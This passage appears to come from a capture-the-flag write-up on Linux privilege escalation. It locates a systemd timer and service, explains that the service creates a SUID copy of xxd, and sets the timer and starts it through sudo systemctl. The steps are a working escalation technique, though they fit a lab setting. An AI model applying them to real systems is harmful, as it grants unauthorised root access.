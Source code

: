 ![8ae11c908bd65b7dd9965b4c3f960bac.png](/resources/955a2dc2d73e4bccb2fbfaa564cdbc44.png)

We can search for this `exploit.timer` file by using the `find` command:

```sh
find / -type f -name 'exploit.timer' 2>/dev/null
```

![32cfaa5c34dcbc9f43d96deb5c50b5d0.png](/resources/44b547fad16f466aa15cd5ccfd71dbbe.png)

Checking the contents of the `exploit.timer` file, we will find that it has no boot timer set:

```sh
cat /etc/systemd/system/exploit.timer
```

```plaintext
[Unit]
Description=Exploit Timer

[Timer]
OnBootSec=

[Install]
WantedBy=timers.target
```

This timer is used to trigger a service, so let's try searching for `exploit.service` using the `find` command:

```sh
find / -type f -name 'exploit.service' 2>/dev/null
```

![8086676e88cbc45bc509cf5bd5d065a3.png](/resources/b713628557c74d3e82ed080ef10bc703.png)

When we `cat` this file, we will find that it makes a copy of the `xxd` binary, gives it the [SUID bit](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit) and makes it executable using `chmod`:

![68d75c727b7a8303f8eb3fce42d09b72.png](/resources/cfb491a6c9d24884a0ce1228ed5f4729.png)

To activate this service, we will need to set a time in the `exploit.timer` file. We can edit this file using `nano` or any other text editor:

![9added993a785777099b407438cce694.png](/resources/611a9260a6d54c8f8f394055ef4650d9.png)

Set the `OnBootSec` to `3s` and press `CTRL+X` to save.

Now, we can reload the daemon by running:

```sh
sudo /bin/systemctl daemon-reload
```

Then, start the timer using the `exploit.timer` configuration file:

```sh
sudo /bin/systemctl start exploit.timer
```
